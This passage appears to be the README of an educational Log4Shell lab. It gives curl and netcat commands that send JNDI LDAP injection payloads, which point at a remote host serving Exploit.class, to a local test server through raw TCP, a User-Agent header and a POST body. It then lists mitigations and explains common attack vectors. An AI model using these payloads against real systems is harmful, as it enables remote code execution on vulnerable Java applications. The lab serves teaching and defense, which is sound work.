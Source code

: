 1. **Test HTTP server is serving the payload:**
   ```bash
   curl -I http://localhost:8888/Exploit.class
   ```

2. **Send exploit via TCP:**
   ```bash
   echo '${jndi:ldap://192.168.1.100:1389/Exploit}' | nc localhost 8080
   ```

3. **Send exploit via HTTP header:**
   ```bash
   curl -H "User-Agent: \${jndi:ldap://192.168.1.100:1389/Exploit}" http://localhost:8080/
   ```

4. **Send exploit via HTTP body:**
   ```bash
   curl -X POST -d "\${jndi:ldap://192.168.1.100:1389/Exploit}" http://localhost:8080/
   ```

## Defense Mechanisms

To protect against this vulnerability:

1. **Upgrade Log4j**: Use version 2.15.0 or later
   - Edit `pom.xml` and change version to `2.15.0`

2. **Set JVM property**:
   ```bash
   java -Dlog4j2.formatMsgNoLookups=true ...
   ```

3. **Set environment variable**:
   ```bash
   export LOG4J_FORMAT_MSG_NO_LOOKUPS=true
   ```

4. **Remove JndiLookup class**:
   ```bash
   zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
   ```

## Educational Notes

### Why is this vulnerability so severe?

1. **Ubiquity**: Log4j is used in countless Java applications
2. **Easy to exploit**: Just inject a string into any logged field
3. **Remote Code Execution**: Full control of the application
4. **No authentication required**: Attacks can come from unauthenticated users

### Common attack vectors:

- HTTP headers (User-Agent, X-Forwarded-For, etc.)
- Form fields
- URL parameters
- WebSocket messages
- Any input that gets logged
